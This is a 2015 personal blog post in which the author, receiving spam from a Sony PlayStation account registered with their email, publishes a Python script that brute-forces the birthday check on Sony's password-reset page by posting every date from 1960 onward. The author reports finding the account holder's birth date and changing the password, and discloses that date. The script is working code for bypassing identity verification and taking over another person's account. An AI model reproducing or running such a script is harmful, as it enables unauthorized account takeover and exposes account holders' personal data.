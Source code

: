 ```yaml
---
uid: 770
title: Sony Entertainment Network spam stopper
date: 2015-09-13T00:53:20+00:00
author: fvicente
layout: post
guid: http://www.alfersoft.com.ar/blog/?p=770
permalink: /2015/09/13/sony-entertainment-network-spam-stopper/
categories:
  - Programming FAQ
  - Software Development
tags:
  - network
  - playstation
  - python
  - sony
  - spam
comments: true
---
```

I don&#8217;t have a Sony PlayStation. But someone nicknamed &#8220;STRONDHA&#8221; has one, and somehow he managed to use my personal e-mail address to create his account. Oddly, Sony didn&#8217;t send any e-mail asking to confirm my e-mail as the owner of the account, and starting spamming every time this person bought a game in their virtual store.

<!--more-->

[<img src="{{ site.url }}/images/sony_spam.png" alt="Sony sending unwanted e-mails"/>]({{ site.url }}/images/sony_spam.png)

## Stop it

My name is too common, and is not the first time I get subscribed to some site I didn&#8217;t ask to. Sometimes, I just click on the &#8220;unsubscribe&#8221; link, or even on &#8220;forgot my password&#8221; and do whatever I need to stop receiving undesired e-mails.

So, I tried the &#8220;forget my password&#8221; trick with Sony, and after some captcha validation, I received an e-mail with a link. The problem is that they required the birthday in order to reset the password, and of course, I don&#8217;t know the birthday of the person that created the account.

Enters python script to try every possible birthday date from 1/1/1960 until today.

### Notes

* You will need to change the base URL to whatever you received in the password reset e-mail from Sony

* You might need to change the &#8216;wrong date&#8217; message to match your local language &#8211; mine is in portuguese (just try any date on the browser, and -unless you&#8217;re so lucky to select the actual birth date- copy and paste the error message on the code)

{% highlight python %}
#!/usr/bin/env python
# -*- coding: utf-8 -*-

import requests
import urllib
import urllib2
import datetime
import sys
import time

from HTMLParser import HTMLParser

# create a subclass and override the handler methods
class MyHTMLParser(HTMLParser):
    def handle_starttag(self, tag, attrs):
        attrs_dict = dict(attrs)
        if tag == "input" and attrs_dict.get('name', '') == "blah_token":
            setattr(self, "value", attrs_dict.get("value"))

    def handle_endtag(self, tag):
        pass

    def handle_data(self, data):
        pass


values = {
    'struts.token.name' : 'blah_token',
    'blah_token': '',
    'verifyType': 'dob',
    'account.dob': '1',
    'account.mob': '1',
    'account.yob': '1980',
}

#
# IMPORTANT: paste the URL received in the change password e-mail in the url variable, the url looks something like this:
# https://account.sonyentertainmentnetwork.com/reg/account/validate-forgot-password-token!input.action?token=***some token here***&request_locale=pt_BR&service-entity=np
#
url = '*** PASTE URL HERE ***'
url_post = "https://account.sonyentertainmentnetwork.com/liquid/reg/account/forgot-password-verify-identity.action"

s = requests.session()
r = s.get(url)
date = datetime.datetime(1960, 1, 1, 1, 1, 1)
today = datetime.datetime.today()
while date < today: 
    date += datetime.timedelta(days=1)
    # find token
    parser = MyHTMLParser()
    parser.feed(r.text)
    if not hasattr(parser, "value"):
        print "!!!!! FOUND %s" % date.isoformat()
        break
    val = getattr(parser, "value")
    print "blah_token = %r" % val
    values['blah_token'] = val
    values['account.dob'] = str(date.day)
    values['account.mob'] = str(date.month)
    values['account.yob'] = str(date.year)
    r = s.post(url_post, values)
    #
    # IMPORTANT: The message is in portuguese, you will need to change this message to match your language
    #
    if u'A data de nascimento inserida é inválida. Verifique a data e tente novamente.' in r.text:
        print "birthday is not %s" % date.isoformat()
    else:
        print "!!!!! FOUND %s" % date.isoformat()
        break
    sys.stdout.flush()
{% endhighlight %}

[See sony.py on gist](https://gist.github.com/fvicente/75980d0d00d759b06e50)

STHRONDHA was born on January 23 of 1983 (or at least that&#8217;s the date he choose when creating his account). So, now I was able to change the password and stop receiving e-mails from Sony. I guess he will need to create a new account now muahahaha.
